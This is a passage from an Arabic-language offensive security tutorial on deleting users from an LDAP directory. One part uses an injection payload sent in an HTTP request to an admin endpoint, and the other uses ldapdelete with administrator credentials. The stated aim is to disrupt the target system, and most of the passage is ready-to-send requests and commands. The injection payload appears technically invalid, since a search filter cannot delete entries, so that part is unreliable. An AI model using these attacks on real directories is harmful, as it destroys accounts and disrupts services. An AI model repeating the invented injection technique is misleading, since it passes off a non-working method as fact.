 ### 3. حذف كائنات من الديركتوري
الهدف هو إزالة مستخدمين أو كائنات من الديركتوري لتعطيل النظام أو إزالة تهديدات.

#### أ. حذف مستخدم عبر واجهة التطبيق
- **السيناريو**: واجهة `/admin/delete_user` تتفاعل مع LDAP وتتأثر بـ LDAP Injection.
- **الإدخال**:
  - Username: `user1)(uid=user1)(delete=uid=user1,dc=domain,dc=com)`
- **الطلب**:
  ```
  POST /admin/delete_user HTTP/1.1
  Host: example.com
  Content-Type: application/x-www-form-urlencoded

  username=user1)(uid=user1)(delete=uid=user1,dc=domain,dc=com)
  ```
- **كيف يعمل**:
  - الاستعلام يحاول حذف الكائن `uid=user1`.
  - استجابة إيجابية (مثل "User deleted") تؤكد نجاح الحذف.
  - تحقق بمحاولة تسجيل الدخول بـ `user1` (ينبغي أن تفشل).
- **متى يُستخدم؟**:
  - عندما يسمح التطبيق بحذف كائنات عبر واجهة متأثرة.
- **الأوامر/الإجراءات**:
  - أرسل الطلب في Burp Suite Repeater.
  - تحقق من الحذف:
    ```
    POST /login HTTP/1.1
    Host: example.com
    Content-Type: application/x-www-form-urlencoded

    username=user1&password=user1pass
    ```

#### ب. حذف مستخدم باستخدام `ldapdelete`
- **السيناريو**: لديك بيانات اعتماد إدارية (`administrator:MYKE`) وتريد حذف `user1`.
- **الأوامر**:
  - شغّل `ldapdelete`:
    ```
    ldapdelete -x -H ldap://target_ip -D "cn=administrator,dc=domain,dc=com" -w MYKE "uid=user1,dc=domain,dc=com"
    ```
- **كيف يعمل**:
  - `ldapdelete` يرسل طلب حذف إلى خادم LDAP.
  - إذا نجح، يتم إزالة `user1`.
- **متى يُستخدم؟**:
  - عندما تملك وصولًا إداريًا ووصول مباشر إلى خادم LDAP.
- **الأوامر/الإجراءات**:
  - شغّل الأمر أعلاه.
  - تحقق من الحذف باستعلام بحث:
    ```
    ldapsearch -x -H ldap://target_ip -D "cn=administrator,dc=domain,dc=com" -w MYKE -b "uid=user1,dc=domain,dc=com"
    ```

---
